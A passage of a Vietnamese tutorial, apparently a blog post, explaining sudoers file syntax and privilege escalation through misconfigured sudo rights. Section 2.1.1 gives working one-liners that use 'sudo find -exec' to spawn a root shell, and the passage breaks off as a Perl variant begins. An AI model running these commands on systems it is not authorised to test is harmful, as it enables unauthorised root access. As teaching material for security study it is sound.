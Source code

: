 Có 3 cách để xem, chỉnh sửa file cấu hình quyền:

![](img/20220215145730.png)

![](https://images.viblo.asia/365b4adf-5da7-4945-a993-3826667836fa.png)

Phía trên là Sudoers File mặc định của Ubuntu (cái dấu % kia chỉ ra rằng **admin** và **sudo** là system groups). Hãy cùng xem xét kỹ hơn cấu trúc qua ví dụ dưới đây:

![](https://images.viblo.asia/d188e9dc-42b8-4be8-b4cc-bc1a78e3d09f.PNG)

Ví dụ trên có nghĩa là: User **nghia** có thể thực thi **tất cả lệnh** với **tư cách Root**, **không cần nhập password** khi yêu cầu thực thi, **nhưng** những điều kia chỉ đúng khi thực thi với path (binary) **/usr/bin/find**. Lưu ý:

-   (ALL:ALL) cũng có thể biểu diễn như là (ALL)
-   Nếu (root) nằm ở vị trí của (ALL:ALL) có nghĩa là user có thể thực thi lệnh dưới quyền root.
-   Nếu phần user/group không được định nghĩa, thì khi thực thi sudo sẽ mặc định thực thi với tư cách root user.
-   Phần **Wildcard** thường dùng chỉ định nơi mà lệnh được phép thực thi. Ví dụ mình thêm **/opt/abcxzy** vào cuối ví dụ, điều đó có nghĩa lệnh **find**, thông qua sudo, chỉ được dùng với thư mục **opt/abcxyz/**. 
-   Tham khảo toàn bộ cấu trúc Sudoers tại [đây](https://www.sudo.ws/man/1.8.15/sudoers.man.html)
# 2. Privilege Escalation using Sudo Rights
Dựa vào config của Sudoers file, từ việc chỉ có thể thực thi sudo với những lệnh hạn chế, chúng ta có thể leo thang đặc quyền để có được quyền Root một cách dễ dàng.
## 2.1. Khi đặc quyền root được gán cho Binary commands
Đôi khi người dùng có quyền thực thi bất kỳ tệp hoặc lệnh nào của một thư mục cụ thể như /bin/cp, /bin/cat hoặc /usr/bin/ find.
### 2.1.1 Using Find Command
Như chúng ta đã biết phía trên, user **test** được config trong sudoers file với nội dung:

```none
test ALL=(root) NOPASSWD: /usr/bin/find
```

Câu lệnh sử dụng:

```none
sudo find /(thư mục nào đó) -exec /bin/bash \;
```

hoặc:

```none
sudo find /bin -name nano -exec /bin/sh \;
```
hoặc
```none
sudo find /etc/passwd -exec /bin/sh \;
```
 
### 2.1.2.  Using Perl
Nếu admin để cho chúng ta một số quyền ở bên dưới:
```none
 test ALL= (root) NOPASSWD: /usr/bin/perl, /usr/bin/python, /usr/bin/less, /usr/bin/awk, /usr/bin/man, /usr/bin/vi

```
